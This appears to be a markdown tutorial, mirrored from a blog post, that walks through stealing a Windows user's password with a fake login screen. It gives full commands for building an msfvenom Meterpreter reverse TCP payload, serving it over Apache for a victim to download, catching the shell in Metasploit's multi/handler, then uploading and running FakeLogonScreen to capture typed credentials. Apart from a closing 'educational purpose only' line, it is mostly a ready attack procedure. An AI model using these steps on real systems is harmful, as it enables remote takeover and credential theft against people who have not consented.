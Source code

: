 ## Windows Password Fishing with Fake Login Screen

# Things You Need:
* Kali Linux Machine (attacking machine).
* Windows 10 (victim machine).

# Step 1:
Start your Kali Linux machine and download the fake login screen from [here](https://github.com/bitsadmin/fakelogonscreen/releases)

![image1](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_LVw4yPzVvtjmrfMdAwMkw.png)

# Step 2:
Now unzip the file using the command

unzip <file-name>.zip

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YJ_Fidq-fKkRmnCES8G-8g.png)

# Step 3:
After doing this you have to create a malicious payload using msfvenom. The exploit is as follow.

msfvenom -p windows/meterpreter/reverse_tcp lhost=<listning-ip> lport=<listning-port> -f exe >> <file-name-you-want-to-create>.exe

It’s creating a Meterpreter reverse TCP shell payload for a Windows target. Meterpreter is an advanced, dynamically extensible payload that operates in memory.

![image1](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*s9ju1fzKx6Qf70kkcQrGvQ.png)

![image1](https://miro.medium.com/v2/resize:fit:464/format:webp/1*abBUYoHzSYIBeJZnA6fHhg.png)

# Step 4:
First create a directory by the name of share in the location mentioned below and then paste the file that you have created in the directory. (LOCATION: /var/www/html)

cd /var/www/html
sudo mkdir share

Go back to the location where you have created the .exe file and then use this command to paste the file into the directory that you have made.

sudo cp <file-name> /var/www/html/shares/

# Step 5:
Now turn on the Apache2 server by using the following command

sudo service apache2 start

![image1](https://miro.medium.com/v2/resize:fit:522/format:webp/1*IaQyUeHH9IXhzm0CF1EocA.png)

# Step 6:
Now open up your windows 10 machine and then open your favorite browser and by using this format open the server.

http://<ip-address-of-attacking-machine>/share

![image1](https://miro.medium.com/v2/resize:fit:316/format:webp/1*SvQoqF2Jr_DEazGT9VCNCQ.png)

As you can see the file you created is there. So you have to simply download the file from the HTTP Server.

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*cjYd-6MIwIjo0QhQtptvtg.png)

![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/f27d6212-ea98-479c-b6d1-805ffaf1c720)

# Step 7:
After this go back to your Kali Linux machine and start the metasploit tool. First the command to set the module.

use multi/handler

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Cw4DrI4hQW-SLJtiwXPNRw.png)

# Step 8:
Then set the Payload, LHOST, and LPORT parameters by using the commands below.

set LHOST <ip-address-of-your-machine>
set LPORT 4444 // it would be set to 4444 by default
set payload windows/meterpreter/reverse_tcp

![image1](https://miro.medium.com/v2/resize:fit:750/format:webp/1*vHNY-jUFytRV_RgulOjWhg.png)

# Step 9:
After this use any of the commands mentioned bellow to execute the exploit. After typing the command click the .exe file in the windows to start a connection.

run
exploit

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hiUqGtFgl3-99E0efg0Gzw.png)

# Step 10:
Now upload the file from your Linux machine to the windows machine in the LOCATION: /root/Downloads/FakeLogonScreen.exe (where my file was downloaded) by using the command.

upload <location-where-file-is-downloaded-or-saved>

![image1](![image](https://github.com/iabdullah215/Network-Security/assets/121729444/076e3ac5-bb86-4daa-a1de-2da143f3ec7e))

# Step 11:
Now type the command below to enter the windows cmd.

shell

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*viV7AJUGhsU60otvRrgpuw.png)

# Step 12:
After this run .exe file by just entering the download directory and typing the name of file i.e. FakeLogonScreen.exe

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ij0x4IIrUuMs-sVci46jiw.png)

# Step 13:
After doing everything right you’ll see that all the running files on the windows will close and a login screen will open. Upon typing the password you’ll receive the feedback on the meterpreter terminal.

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1jhonIDkgaOJZmRIZVhYLA.png)

# Step 14:
Now type in the password. If you’ll type in the wrong password. It will tell on the terminal that the password is wrong and when you’ll type in the correct password It’ll tell that it is the correct one.

![image1](https://miro.medium.com/v2/resize:fit:390/format:webp/1*1YA-dSqxhBBdbV9e9jzJnA.png)

As I was in my personal user so I can’t compromise that. So I created a test user in order to exploit it. So i again went through all the stuff and yah eventually got the password.

![image1](https://miro.medium.com/v2/resize:fit:494/format:webp/1*H8PTsDeajlosP4tJB5WCkA.png)

## Use it for educational purpose only...
